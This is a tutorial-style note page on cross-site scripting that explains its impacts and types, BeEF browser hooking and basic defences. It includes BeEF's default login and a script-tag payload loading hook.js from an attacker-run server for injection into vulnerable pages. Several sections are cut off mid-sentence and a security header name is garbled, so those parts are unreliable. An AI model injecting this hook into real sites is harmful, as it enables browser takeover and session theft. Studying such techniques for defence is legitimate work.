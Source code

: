 # Cross-Site Scripting

Cross-site-scripting, or XSS as it is sometimes abbreviated to, is an attack that let's the attacker execute javascript code in the browser of the victim.

## So, what's the worst that can happen?

The attacker is probably not that interested in changing the color or font of the website the victim is visiting. Although s/he could do that. The worst that can happen is probably the following:

1. Complete control over the browser The attacker can access plugins. Like password managers. The attacker can trick the user into allowing webcam or audio.
2. Session-hijacking/Cookie theft This is when the attacker steals the cookie that is saved in the browser. Using this cookie the attacker can log in to the service as the victim, and thereby gain access to his/her account. If the victim is an admin that has extended privileges \(uploading code, images, or whatever\) this could lead to a compromise of the server itself.
3. Keylogger The attacker can execute a keylogging-script that steals everything the user inputs in the website. This could be used to steal sensitive information, like passwords, credit cards information, chatlogs or whatever the user inputs.
4. Phishing The attacker can insert a fake login. Image that you visit a site, and from that site you are able to login using your facebook or google-account. The attacker could spoof that so that when you enter your credentials, they are then sent to the attacker.
5. Browser exploits The script can redirect to a another page that issues an attack against the browser, possibly leading to total takeover of the machine.

### Types of XSS

1. Persistent This is when the malicious code originates from the websites database. That means the attacker has managed to insert malicious code into the database. So every time the database serve that data the script will me executed. this is probably the most dangerous XSS, since it does not need to rely on social engineering.
2. Reflected This is an attack where the script originates from the users request. This might seem a bit illogical, why would a user inject malicious code to himself? Well the code can
3. DOM based DOM-based attacks are when something is injected into javascript on the DOM. So, it does not go by the server. Because the code gets executed in the response. Take a search-functionality for example. The users enters a search-parameter that gets sent to the server which might sanitize it or something. In the response the found search-items are sent, but not the search-query. But on the webpage the search query is exposed. "You searched for X" is shown. That is because it gets the search parameter from the url-parameter. By using `document.location.href` for example.

## Beef

Beef username/password: beef:beef Beef is a great tool for attacking browsers.

After starting it up you can log in to the panel. Then you get someone to execute the hook. Hook URL: [http://172.17.15.118:3000/hook.js](http://172.17.15.118:3000/hook.js) UI URL: [http://172.17.15.118:3000/ui/panel](http://172.17.15.118:3000/ui/panel)

By injecting the hook into a XSS. Like this

```javascript
<script src="http://172.17.15.118:3000/hook.js"></script>
```

### How does it really work?

Let's look at a practical example.

### Protect yourself

The problem with XSS is that it is a bit hard for the users to protect themselves. If there is a problem witht the website there is not that much the user can do.

One can always use noscript to block all javascript code. But that pretty much destroys the whole experience with using the internet.

### Protect your website

There are mainly two ways to protect against  **encoding**  and  **sanitizing** .

#### Encoding

Of course the way to protect your website is to sanitize all input.

You can also set the response-header like this: `-xss-protection:"1; mode=block"`

For nodeJs you can use the helmet-module to do this. [https://www.npmjs.com/package/helmet](https://www.npmjs.com/package/helmet)

### Risks for the attacker

The obvious risk is that the attacker must expose a server.

### Tools

#### XSSER

This tool tests a lot of

`xsser --gtk`

#### Xssposed

This is a tool found in recon-ng. It basically just check this \([https://www.openbugbounty.org/](https://www.openbugbounty.org/) \) database to see if anyone has reported a xss for the website.

### References:

[http://brutelogic.com.br/blog/probing-to-find-xss/](http://brutelogic.com.br/blog/probing-to-find-xss/) [http://excess-xss.com/](http://excess-xss.com/)

